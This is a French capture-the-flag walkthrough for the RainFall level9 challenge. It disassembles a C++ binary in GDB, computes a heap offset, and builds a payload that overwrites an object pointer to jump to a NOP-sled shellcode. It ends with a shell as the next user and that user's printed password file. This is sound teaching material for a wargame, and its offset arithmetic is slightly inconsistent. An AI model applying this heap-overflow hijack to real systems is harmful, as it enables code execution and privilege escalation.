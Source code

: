 # Level9: hijack via object field overwrite

# Première étape — tester le programme

```bash
$ ./level9
$ ./level9 test
$ ./level9 test
```

Ouvrir dans GDB

```c
Dump of assembler code for function main:
	0x080485f4 <+0>:		push   ebp
	0x080485f5 <+1>:		mov    ebp,esp
	0x080485f7 <+3>:		push   ebx
	0x080485f8 <+4>:		and    esp,0xfffffff0
	0x080485fb <+7>:		sub    esp,0x20
	0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1
	0x08048602 <+14>:	jg     0x8048610 <main+28>
	0x08048604 <+16>:	mov    DWORD PTR [esp],0x1
	0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
	0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
	0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
	0x0804861c <+40>:	mov    ebx,eax
	0x0804861e <+42>:	mov    DWORD PTR [esp+0x4],0x5
	0x08048626 <+50>:	mov    DWORD PTR [esp],ebx
	0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
	0x0804862e <+58>:	mov    DWORD PTR [esp+0x1c],ebx
	0x08048632 <+62>:	mov    DWORD PTR [esp],0x6c
	0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
	0x0804863e <+74>:	mov    ebx,eax
	0x08048640 <+76>:	mov    DWORD PTR [esp+0x4],0x6
	0x08048648 <+84>:	mov    DWORD PTR [esp],ebx
	0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
	0x08048650 <+92>:	mov    DWORD PTR [esp+0x18],ebx
	0x08048654 <+96>:	mov    eax,DWORD PTR [esp+0x1c]
	0x08048658 <+100>:	mov    DWORD PTR [esp+0x14],eax
	0x0804865c <+104>:	mov    eax,DWORD PTR [esp+0x18]
	0x08048660 <+108>:	mov    DWORD PTR [esp+0x10],eax
	0x08048664 <+112>:	mov    eax,DWORD PTR [ebp+0xc]
	0x08048667 <+115>:	add    eax,0x4
	0x0804866a <+118>:	mov    eax,DWORD PTR [eax]
	0x0804866c <+120>:	mov    DWORD PTR [esp+0x4],eax
	0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]
	0x08048674 <+128>:	mov    DWORD PTR [esp],eax
	0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
	0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
	0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
	0x08048682 <+142>:	mov    edx,DWORD PTR [eax]
	0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]
	0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax
	0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]
	0x08048690 <+156>:	mov    DWORD PTR [esp],eax
	0x08048693 <+159>:	call   edx
	0x08048695 <+161>:	mov    ebx,DWORD PTR [ebp-0x4]
	0x08048698 <+164>:	leave
	0x08048699 <+165>:	ret
End of assembler dump.
```
Ce code est du C++, ou **_Znwj@plt** est le constructor d'une instance et alloue de la memoire dans la heap.

### found offset.

Comme nous le savons deja nous pouvons voir qu'il y a deux constructor il suffit juste soustraire leur adresse pour avoir le nombre d'octet qui les separes.

```s
Breakpoint 1, 0x0804861c in main ()
(gdb) p/x $eax
$1 = 0x804a008
(gdb) next
.............
Breakpoint 2, 0x0804863e in main ()
(gdb) p/x $eax
$2 = 0x804a078
(gdb) p 0x804a078 - 0x804a008
$3 = 112 - 4 octets = 108
```

> _ mon offset est de **112** - **8** octets = 108 octets.


### Heap Overflow

```bash
Breakpoint 5, 0x0804867c in main ()
(gdb) x/x $eax
0x804a00c:	0x41414141
(gdb) nexti
0x08048680 in main ()
(gdb) x/x $eax
0x804a078:	0x43434343
(gdb) nexti $eax

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) x/x $eax
0x43434343:	Cannot access memory at address 0x43434343
```

### payload


mettons un shelcode nosled dans l'environement.

```bash
level9@RainFall:~$ ./level9 $(python -c 'print "\x66\xfc\xff\xbf" + "A"*104 + "\x0c\xa0\x04\x08"')
```

- "\x66\xfc\xff\xbf" adresse du nosled
- "A"*104 panding
-  "\x0c\xa0\x04\x08" adresse du deferencement de ``$eax`` appeler par le call ``$edx``


### execution


```bash
level9@RainFall:~$ ./level9 $(python -c 'print "\x66\xfc\xff\xbf" + "A"*104 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

TADA ! :)
